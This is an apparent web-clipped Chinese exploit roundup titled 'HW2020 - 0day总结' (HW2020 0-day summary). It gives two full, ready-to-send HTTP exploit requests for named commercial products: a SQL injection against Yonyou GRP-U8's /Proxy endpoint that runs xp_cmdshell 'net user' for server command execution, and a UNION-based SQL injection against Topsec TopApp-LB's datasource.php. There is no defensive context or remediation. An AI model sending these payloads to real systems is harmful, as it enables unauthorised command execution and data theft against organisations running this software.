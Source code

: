 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[www.yuque.com\](https://www.yuque.com/docs/share/ad8192ca-39ec-4950-86e9-01dfa989bf6f?#)

HW2020 - 0day总结
===============

> AdminTony 总结

1.用友GRP-u8 SQL注入
================

```
POST /Proxy HTTP/1.1
Accept: Accept: \*/\*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache

cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET
version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS\_DataRe
quest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA
format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME
><DATA format="text">exec xp\_cmdshell 'net
user'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

2.天融信TopApp-LB sql注入
====================

```
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: 
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, \*/\*
X-Prototype-Version: 1.6.0.3
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_15\_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ijqtopbcbmu8d70o5t3kmvgt57
Content-Type: application/x-www-form-urlencoded
Content-Length: 201

t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22--+&gid=0&lmt=10&o=r\_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。 
```
